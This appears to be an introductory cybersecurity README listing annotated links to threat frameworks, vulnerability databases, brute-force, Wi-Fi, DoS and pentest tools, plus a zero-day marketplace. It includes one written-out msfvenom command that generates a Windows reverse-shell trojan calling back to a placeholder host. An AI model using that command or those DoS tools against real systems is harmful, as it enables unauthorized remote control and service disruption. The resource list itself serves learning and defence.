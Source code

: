 # Introduction to Cyber Security

"Introduction to Cyber Security" базови познания в сферата на киберсигурността. 

---------------------------------------------------------------

## Frameworks for Recording Threat Actions

- [ATT&CK Matrix for Enterprise](https://attack.mitre.org/) - MITRE ATT&CK® is a globally accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for developing specific threat models and methodologies in the private sector, government, and cybersecurity product and service community.

---------------------------------------------------------------

## IDS / IPS (Intrusion Detection System / Intrusion Prevention System)

- [Snort](https://www.snort.org/) - Snort is an Open Source Intrusion Prevention System (IPS). Snort IPS uses a series of rules that help define malicious network activity, which is used to find packets that match against them and generate alerts for users. Snort can be deployed to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump and as a packet logger, which is helpful for network traffic debugging and can be used as a full-blown network intrusion prevention system.
- [Live Cyber Threat Map](https://threatmap.checkpoint.com/) - a real-time map of the computer security attacks occurring at any given time.

---------------------------------------------------------------

## Vulnerabilities `CVE-YEAR OF DISCOVERY-ID`

- [CVE Org](https://www.cve.org/) - Identify, define, and catalog publicly disclosed cybersecurity vulnerabilities
- [ExploitDB](https://www.exploit-db.com/) - Search for Vulnerabilities
- [National Vulnerability Database](https://nvd.nist.gov/) - U.S. government repository of standards-based vulnerability management data represented using the Security Content Automation Protocol (SCAP). This data enables automation of vulnerability management, security measurement, and compliance. The NVD includes databases of security checklist references, security-related software flaws, product names, and impact metrics.
- [CVE Details](https://www.cvedetails.com/) - a complete CVE database enhanced with additional information, including advisories, exploits, tools, source code changes, etc.
- Searchsploit - kali-linux command util

---------------------------------------------------------------

## Hacking Tools 
- [Responder](https://github.com/SpiderLabs/Responder) - Responder is an open-source tool primarily used for NetBIOS and LLMNR poisoning attacks. NetBIOS (Network Basic Input/Output System) and LLMNR (Link-Local Multicast Name Resolution) facilitate communication between devices on a local network.
- [John the Ripper](https://github.com/openwall/john) - John the Ripper is a fast password cracker, currently available for many flavors of Unix, macOS, Windows, DOS, BeOS, and OpenVMS (the latter requires a contributed patch). Its primary purpose is to detect weak Unix passwords. Besides several crypt(3) password hash types most commonly found on various Unix flavors, supported out of the box are Kerberos/AFS and Windows LM hashes, as well as DES-based tripcodes, plus hundreds of additional hashes and ciphers in "-jumbo" versions.
- [Zero Days Marketplace](https://0day.today/) - Zero Day Vulnerabilities. Zero Day means that they are brand new, and there
is not a fix or patch for them.
- [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) - The Social-Engineer Toolkit is an open-source penetration testing framework designed for social engineering. SET has several custom attack vectors that allow you to make a believable attack quickly. SET is a product of TrustedSec, LLC – an information security consulting firm located in Cleveland, Ohio.

---------------------------------------------------------------

## Brute Forcing Attacks

- [Hydra](https://github.com/vanhauser-thc/thc-hydra) - Hydra (or THC Hydra) is a parallelized network login cracker built in various operating systems like Kali Linux
- [Burp Intruder](https://portswigger.net/burp/pro) - Burp Intruder is a tool for automating customized attacks against web applications.
- [Medusa](https://github.com/jmk-foofus/medusa) - Medusa is a speedy, parallel, and modular login brute-forcer. The goal is to support as many services that allow remote authentication as possible.

---------------------------------------------------------------


## Frameworks to Perform Wi-Fi Attacks

- [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) - This is a multi-use bash script for Linux systems to audit wireless networks.
- [WiFiPhisher](https://github.com/wifiphisher/wifiphisher) - Wifiphisher is a rogue Access Point framework for conducting red team engagements or Wi-Fi security testing. Using Wifiphisher, penetration testers can quickly achieve a man-in-the-middle position against wireless clients by performing targeted Wi-Fi association attacks.
- [WiFi Exploitation Framework](https://github.com/D3Ext/WEF) - This is an entirely offensive framework for auditing Wi-Fi networks with different types of attacks for WPA/WPA2, WPS, and WEP, automated handshake cracking, and much more.

---------------------------------------------------------------

## DoS Tools - Denial of Service (DOS)

- [Low Orbit Ion Cannon](https://github.com/NewEraCracker/LOIC) - Low Orbit Ion Cannon (LOIC) is an open-source network stress tool written in C# (TCP, UDP, HTTP GET FLOODS).
- [High Orbit Ion Cannon](https://sourceforge.net/projects/highorbitioncannon/) - HTTP GET / POST requests
- [hping3](https://www.kali.org/tools/hping3/) - hping3 is a network tool that sends custom ICMP/UDP/TCP packets and displays target replies like ping does with ICMP replies. It handles fragmentation and arbitrary packet body and size and can transfer files under supported protocols. Using hping3, you can test firewall rules, perform (spoofed) port scanning, test network performance using different protocols, do path MTU discovery, perform traceroute-like actions under different protocols, fingerprint remote operating systems, audit TCP/IP stacks, etc. hping3 is scriptable using the Tcl language.
- [Tors Hammer](https://github.com/Karlheinzniebuhr/torshammer) - As the name suggests, the tool can perform attacks inside the Tor network. By default, Tor's Hammer operates on level 7 of the OSI Model and attacks the whole TCP stack. The way it works is simple. The tool opens multiple dead connections and, thus, hangs the application since it cannot return results. However, instead of a crushing action like the literal Thor hammer, it is specialized for anonymous attacks. The tool is built in a way that uses anonymity as leverage to evade firewalls and security mitigations. Pen testers also use it for demo attacks on security structures. This tool has a downside. However, the primary network (Tor) is usually very slow. This speed limit automatically limits how effective these tools can be.

---------------------------------------------------------------

## Generate Trojan for Reverse Shell Callback

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/) - Msfvenom enables you to generate custom payloads for specific targets. The tool was created by combining two previous Metasploit tools—msfencode and msfpayload. Msfvenom can help get past the security of a target protected by a firewall or an antivirus. `msfvenom –p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT –f exe –o file.exe`

---------------------------------------------------------------

## Security Tools

- [OpenVPN](https://openvpn.net/) Virtual Private Network - Infrastructure that allows machines to connect in
a secure way
- [Tor Network](https://www.torproject.org/) This network is used for anonymity online
- [JWT Token](https://jwt.io/) JSON Web Token - Used for authorization in web apps. It relies on a secret to validate its signature. JWT token is instantiated upon a valid login
- [Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) - Applied algorithm to "obfuscate" a secret

---------------------------------------------------------------

## Penetration Testing Tools

- [Nessus](https://www.tenable.com/products/nessus)
- [Nmap](https://nmap.org/)
- [BurpSuite](https://portswigger.net/burp)
- [Searchsploit](https://www.exploit-db.com/searchsploit)

---------------------------------------------------------------

## Penetration Testing Operational Systems

- [Kali Linux](https://www.kali.org/)
- [Parrot OS](https://www.parrotsec.org/)
- [Black Arch](https://blackarch.org/)
- [CommandoVM](https://github.com/mandiant/commando-vm)

---------------------------------------------------------------

## Example of interesting ports:

- 22 / SSH
- 80 / HTTP
- 443 / HTTPS
- 389 / LDAP

---------------------------------------------------------------

## Example of exciting commands:

- How to Check What Ports are Opened on Your PC
  - Windows:
    - `netstat –an`
    - `netstat –antb`
  - Linux:
    - `ss –nltp`
    - `netstat –tulpn`


